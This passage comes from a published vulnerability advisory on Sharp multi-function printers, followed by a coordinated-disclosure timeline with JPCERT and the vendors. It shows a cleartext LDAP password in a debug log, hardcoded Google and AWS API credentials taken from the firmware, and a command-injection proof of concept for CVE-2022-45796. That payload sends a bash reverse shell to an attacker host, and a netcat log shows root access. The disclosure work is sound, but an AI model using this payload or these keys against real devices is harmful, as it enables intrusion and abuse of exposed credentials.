6458d562.356e155f 0x7fe727bff6c0 daemon: epoll: listen=10 active_threads=0 tvp=zero
6458d562.356f5783 0x7fe7273fe6c0 ldap_read: want=8, got=8
6458d562.356f9399 0x7fe7273fe6c0 0000: 30 31 02 01 01 01 01 01 01......
6458d562.356fd33a 0x7fe7273fe6c0 ldap_read: want=43, got=43
6458d562.3570169a 0x7fe7273fe6c0 0000: 01 03 04 15 6c 64 61 70 2d 63 72 65 64 73 35 40 ....ldap-creds5@
6458d562.357033a1 0x7fe7273fe6c0 0010: 64 6f 6d 61 69 6e 2e 6c 61 2e 2e 50 41 53 53 57 domain.la..PASSW
6458d562.35704d44 0x7fe7273fe6c0 0020: 4f 52 44 2d 49 4e 2d 43 4c 45 41 52 ORD-IN-CLEAR
6458d562.357231ef 0x7fe7273fe6c0 ldap_read: want=8 error=Resource temporarily unavailable
It is also possible to use wireshark to display the password.
Details - Hardcoded Google API Keys
The printers contain private API Keys in the main program.
It is possible to retrieve specific googlecontent.com domain names in the main program:
Reverse Engineering of the sub_2146D54() function defined in the main program will reveal some hardcoded keys:
The domains listed in the binary are:
- 265490466885-m5cjvglv9q8aak493cgepe7juvafgh8c.apps.googleusercontent.com
- 347970444986-0pij6u2tfhb240edjmls3h1u8qm2v2b3.apps.googleusercontent.com
- 410988772526-6ujegl6jvquh9kstiegva8fk5j2ogag9.apps.googleusercontent.com
- 292646726735-033ggn9hmlrs8bntrj0fbstob9m8qt26.apps.googleusercontent.com
These domains do not appear to be used anymore and are free for any user. An attacker can use them to receive traffic from the printers.
Details - Hardcoded Amazon API Keys
The printers contain private API Keys in the main program.
It is possible to retrieve a specific amazonaws.com address in the main program:
- https://7db3z5d116.execute-api.ap-northeast-1.amazonaws.com/prod/MFPDataAlalytics
When Cross-referencing this address, it appears that some private API keys are hardcoded in the program, as shown below:
- Postman private key:
44688039-5104-39be-f974-c1f5ef621a5f - API-KEY:
PBYXSIK6av8fBt8Qe1EQUaF9ZaKvTDutaXS9YwWA
Reverse Engineering of the sub_20D542C function defined in the main program:
We can see that curl is invoked with the -k option (aka --insecure) so any invalid SSL certificate will be accepted:
The pseudo-code of sub_20D542C() is:
int __fastcall sub_20D542C(const char *a1, const char *a2)
{
...
if ( sub_6A0DA0(606420, 0) )
{
sub_6A174C((char *)&loc_940DC + 2, v4, 255);
sub_6A174C((char *)&loc_940DC + 3, v6, 80);
sub_6A174C(606432, v7, 80);
if ( !*v6 )
j_strncpy_0(v6, "user", 0x50u);
v11 = sub_6A107C(&loc_940E8, 3080);
j_snprintf(
v9,
0x800u,
"/usr/bin/curl -k -o %s -U %s:%s -x %s:%d -X POST -d @\"%s\" -H \"x-api-key: PBYXSIK6av8fBt8Qe1EQUaF9ZaKvTDut"
"aXS9YwWA\" -H \"Cache-Control: no-cache\" -H \"Postman-Token: 44688039-5104-39be-f974-c1f5ef621a5f\" -L \"%s\"",
a2,
v6,
v7,
v4,
v11,
a1,
"https://7db3z5d116.execute-api.ap-northeast-1.amazonaws.com/prod/MFPDataAlalytics");
sub_20D7E20(
"[analy][curl] /usr/bin/curl -k -o %s -U %s:xxx -x %s:%d -X POST -d @\"%s\" -H \"x-api-key: PBYXSIK6av8fBt8Q"
"e1EQUaF9ZaKvTDutaXS9YwWA\" -H \"Cache-Control: no-cache\" -H \"Postman-Token: 44688039-5104-39be-f974-c1f5ef"
"621a5f\" -L \"%s\"\n",
a2,
v6,
v4,
v11,
a1,
"https://7db3z5d116.execute-api.ap-northeast-1.amazonaws.com/prod/MFPDataAlalytics");
}
else
{
j_snprintf(
v9,
0x800u,
"/usr/bin/curl -k -o %s -X POST -d @\"%s\" -H \"x-api-key: PBYXSIK6av8fBt8Qe1EQUaF9ZaKvTDutaXS9YwWA\" -H \"Ca"
"che-Control: no-cache\" -H \"Postman-Token: 44688039-5104-39be-f974-c1f5ef621a5f\" -L \"%s\"",
a2,
a1,
"https://7db3z5d116.execute-api.ap-northeast-1.amazonaws.com/prod/MFPDataAlalytics");
sub_20D7E20(
"[analy][curl] /usr/bin/curl -k -o %s -X POST -d @\"%s\" -H \"x-api-key: PBYXSIK6av8fBt8Qe1EQUaF9ZaKvTDutaXS9"
"YwWA\" -H \"Cache-Control: no-cache\" -H \"Postman-Token: 44688039-5104-39be-f974-c1f5ef621a5f\" -L \"%s\"\n",
a2,
a1,
"https://7db3z5d116.execute-api.ap-northeast-1.amazonaws.com/prod/MFPDataAlalytics");
}
v12 = j_mfp_system((int)v9);
Details - CVE-2022-45796 - RCE
Since the PoC for CVE-2022-45796 was not public, an authenticated admin user can go to http://ip/nw_interface.html and use the IPv6 IP field to exploit a command injection:
{kind=link}
Using Burp, an attacker can intercept the resulting request and inject a command inside the vulnerable ggt_textbox(16) field, for example,
ggt_textbox%2816%29=%7Cbash+-i+%3E%26+%2Fdev%2Ftcp%2Fattacker_ip%2F443+0%3E%261 corresponding to the payload |bash -i /dev/tcp/attacker_ip/443 0>&1.
The attacker will receive a root shell from the printers and will get a full admin access, allowing to backdoor the printer for persistence:
kali% nc -l -v -p 443
listening on [any] 443 ...
10.0.0.1: inverse host lookup failed: Unknown host
connect to [10.0.0.10] from (UNKNOWN) [10.0.0.1] 58196
bash: cannot set terminal process group (619): Inappropriate ioctl for device
bash: no job control in this shell
bash-4.3# id
uid=0(root) gid=0(root) groups=0(root)
bash-4.3# uname -ap
Linux SC58C36B 4.1.46-rt52 #2 SMP PREEMPT RT Fri Apr 26 12:29:16 JST 2019 aarch64 GNU/Linux
bash-4.3# ps -auxww | grep ping
root 5022 0.0 0.0 1916 368 ? S 09:34 0:00 grep ping
root 28966 0.0 0.0 2876 1940 ? S 09:33 0:00 sh -c ping6 -c 1 -W 2 |bash -i >& /dev/tcp/10.0.0.10/443 0>&1
bash-4.3#
init-+-aarch64-fsl-lin
|-access_audit_mg
|-bcr_iface
|-blackscreen_mon
|-check_hash_daem
|-cmd_proc
|-cpu_state
|-dbus-daemon
|-dout_daemon---14*[{dout_daemon}]
|-dummy_init
|-getty
|-intsrt
|-linter
|-mgrcpuif_r1b---2*[{mgrcpuif_r1b}]
|-mgrcpuif_r1c---2*[{mgrcpuif_r1c}]
|-nfcproc---7*[{nfcproc}]
|-ocrsrv---21*[{ocrsrv}]
|-oom_watch
|-poff_reboot
|-pulseaudio---{null-sink}
|-rc---S998linuxApp-+-IFS---20*[{IFS}]
| |-main-+-preview---48*[{preview}]
| | |-sxlinklocald
| | `-514*[{main}]
| |-netp---netp---sh---bash---pstree
| |-pdl---43*[{pdl}]
| |-reus_lcd_mgr---{reus_lcd_mgr}
| |-rtc_manager---{rtc_manager}
| |-2*[seriallink---6*[{seriallink}]]
| |-sound_play-+-14*[{sound_play}]
| | `-{threaded-ml}
| |-startx---xinit-+-X
| | `-sh-+-NX---7*[{NX}]
| | |-ui_mainview---12*[{ui_mainview}]
| | `-ui_subview---7*[{ui_subview}]
| |-usbch_mgr
| |-vmstat
| |-watch_proc
| `-wlctlproc---6*[{wlctlproc}]
|-2*[rotate]
|-rsyslogd-+-{in:imklog}
| |-{in:immark}
| |-{in:imuxsock}
| `-{rs:main Q:Reg}
|-system_reset---6*[{system_reset}]
`-udevd---2*[udevd]
bash-4.3#
Vendor Response
JPCERT provided a security bulletin.
Sharp provided a security bulletin.
Toshiba provided a security bulletin.
Report Timeline
- May 2023: Security assessment performed on Sharp Multi-function printers.
- June 1, 2023: A complete report was sent to JPCERT (security contact for Sharp).
- June 6, 2023: JPCERT aknowledged the reception of the security assessment and asked more information about the security contact.
- June 7, 2023: Information about the security contact provided to JPCERT.
- June 7, 2023: JPCERT confirmed the reception of the security contact.
- Jul 17, 2023: Questions sent to JPCERT asking for any feedback from Sharp.
- Jul 18, 2023: JPCERT confirmed that they had a meeting with Sharp a week ago. Sharp finished the investigation and was preparing a document listing all the issues.
- Jul 25, 2023: JPCERT provided the Excel file with Sharp's comments.
- Jul 26, 2023: I confirmed the reception of the documents
- Jul 28, 2023: Comments sent to JPCERT in the Excel file to ask to re-evaluate some issues.
- Aug 1, 2023: Received responses from JPCERT regarding some of the issues.
- Aug 1, 2023: Additional information provided to JPCERT regarding a potential disclosure of vulnerabilities if the issues are not patched. I suggested a tripartite meeting with Sharp and JPCERT to review the issues.
- Aug 2, 2023: JPCERT suggested solutions to get security patches in a timely manner by prioritizing issues.
- Aug 3, 2023: Agreed with JPCERT to prioritize vulnerabilities based on severity, then patch critical vulnerabilities as soon as possible while delaying hard-to-fix vulnerabilities.
- Aug 4, 2023: JPCERT confirmed that they are working with Sharp to get the issues fixed.
- Aug 16, 2023: JPCERT confirmed that they asked Sharp to reconsider some of the issues with two buckets (short-term fixes and long-term countermeasures) and that Sharp was working on the issues.
- Sep 13, 2023: I answered that it is an acceptable practice, since short-term fixes and long-term countermeasures are currently being implemented by other printer vendors.
- Sep 14, 2023: JPCERT confirmed that they are working with Sharp to get security patches.
- Oct 10, 2023: I confirmed the reception of the updates.
- Nov 16, 2023: JPCERT provided a new Excel file with the issues and the countermeasures provided by Sharp.
- Nov 21, 2023: Excel file was reviewed and Sharp suggested to patch vulnerable code and remove vulnerable features.
- Jan 29, 2024: Asking about the status of the vulnerabilities (CVE, availability of security patches).
- Jan 30, 2024: JPCERT confirmed that a JVN advisory will be published with corresponding CVEs. Security patches will be provided by May 2024.
- Jan 30, 2024: I suggested to test patched firmware images to confirm that vulnerabilities were correctly patched.
- Jan 31, 2024: JPCERT passed the message to Sharp regarding additional tests of patched firmware images.
- Feb 16, 2024: JPCERT sent the updated Excel file containing the vulnerabilities.
- Feb 16, 2024: Confirmation of the reception of the Excel file.
- Feb 20, 2024: Updated Excel file sent to JPCERT with my comments.
- Mar 1, 2024: JPCERT sent comments regarding my feedbacks.
- Mar 4, 2024: I confirmed the reception of the feedbacks.
- May 8, 2024: Email asking JPCERT when the security advisories and security patches will be published.
- May 16, 2024: JPCERT sent a list of affected products/versions and confirmed that they are working on a draft.
- May 20, 2024: I suggested to include unsupported models since, based on my testing, some unsupported models were vulnerable.
- May 21, 2024: JPCERT reported sending this suggestion to Sharp.
- May 28, 2024: JPCERT provided the JVN English edition draft advisory, the final list of affected products and Toshiba Tech MFPs information.
- May 28, 2024: I asked JPCERT to provide me with the list of CVEs for the list of vulnerabilities I reported.
- May 29, 2024: JPCERT provided a list of vulnerabilities along with CVEs and clarifications regarding some of the findings.
- May 30, 2024: Confirmation sent to JPCERT that the list was received.
- May 31, 2024: JPCERT published a security advisory: https://jvn.jp/en/vu/JVNVU93051062/index.html.
- May 31, 2024: Sharp published a security advisory: https://global.sharp/products/copier/info/info_security_2024-05.html.
- May 31, 2024: Toshiba published a security advisory: https://www.toshibatec.com/information/20240531_02.html.
- June 27, 2024: A security advisory is published.
Credits
These vulnerabilities were found by Pierre Barre aka Pierre Kim (@PierreKimSec).
References
https://pierrekim.github.io/blog/2024-06-27-sharp-mfp-17-vulnerabilities.html
https://pierrekim.github.io/advisories/2024-sharp-mfp.txt
https://jvn.jp/en/vu/JVNVU93051062/index.html
https://global.sharp/products/copier/info/info_security_2024-05.html
https://www.toshibatec.com/information/20240531_02.html
Disclaimer
This advisory is licensed under a Creative Commons Attribution Non-Commercial Share-Alike 3.0 License: http://creativecommons.org/licenses/by-nc-sa/3.0/
published on 2024-06-27 00:00:00 by Pierre Kim <pierre.kim.sec@gmail.com>